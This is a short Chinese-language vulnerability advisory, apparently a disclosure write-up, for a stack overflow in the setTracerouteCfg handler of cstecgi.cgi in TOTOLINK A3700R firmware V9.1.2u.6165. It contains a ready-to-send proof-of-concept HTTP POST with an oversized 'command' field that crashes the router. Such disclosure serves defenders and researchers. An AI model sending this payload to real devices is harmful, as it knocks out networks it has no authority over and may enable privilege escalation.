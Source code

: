 

### **概述**：
影响设备：totolink A3700R

影响固件版本：V9.1.2u.6165_20211012

影响：堆栈溢出，可以造成拒绝服务和权限提升

固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>

报送邮箱 : zwx918569613@gmail.com


![](Pasted%20image%2020231022165035.png)

### **漏洞**：

该漏洞位于`cstecgi.cgi`中的函数`FUN_00422928`，函数别名`setTracerouteCfg`


![](Pasted%20image%2020231023195516.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里对传入命令合法性进行了验证，过滤了命令注入的漏洞
但是并未对传入的参数`command`进行长度限制，而`sprintf`格式化拼接参数`command`到变量`acStack_90`中，存在堆栈溢出漏洞


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 507
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1698059537:2
Connection: close

{
"topicurl": "setting/setTracerouteCfg",
"command":"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"
}
~~~

### **影响效果**：


![](Pasted%20image%2020231023200234.png)